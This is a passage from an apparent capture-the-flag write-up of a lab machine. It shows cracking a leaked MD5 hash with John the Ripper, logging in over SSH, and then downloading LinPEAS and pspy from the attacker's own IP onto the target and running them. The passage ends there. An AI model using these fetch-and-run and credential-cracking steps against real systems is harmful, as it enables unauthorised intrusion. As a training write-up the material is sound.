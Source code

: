 There is only one result, but we got what looks like an MD5 hash in the _password_ column for the user **james_mason**.

## Shell as james_mason

Let's try to crack the hash using [John the Ripper](https://github.com/openwall/john)

```bash
# bryan@attacker
hash="" # Hash here
echo "james_mason:$hash" > md5.john
john md5.john \
	--format="raw-md5" \
	--wordlist="rockyou.txt" # classic rockyou.txt wordlist
```
{:.nolineno}

Using these credentials on the target's SSH server will land us a shell as **james_mason**.

```bash
# bryan@attacker
ssh "james_mason@$rhost"
```
{:.nolineno}

There is no user flag in our home directory so we might need to do some lateral movement.

### Lateral Movement

We will be using LinPEAS from [PEASS-ng](https://github.com/carlospolop/PEASS-ng) to look for any useful information on the machine. We will also be using [pspy](https://github.com/DominicBreuker/pspy) to snoop on processes.

```bash
# bryan@attacker
lhost="10.10.14.10" # Listener host
cd $(mktemp -d)
wget \
	"https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64" \
	"https://github.com/carlospolop/PEASS-ng/releases/download/20220522/linpeas.sh"
php -S $lhost:80
```
{:.nolineno}

```bash
# james_mason@shared.htb (SSH)
lhost="10.10.14.10" # Attacker's IP address
mkdir .sneak && cd .sneak
wget "http://$lhost/pspy64" "http://$lhost/linpeas.sh"
bash ./linpeas.sh | tee linpeas.log
```
{:.nolineno}

We don't get anything that blatantly stands out in the LinPEAS output. Let's try running PSpy for a few minutes.
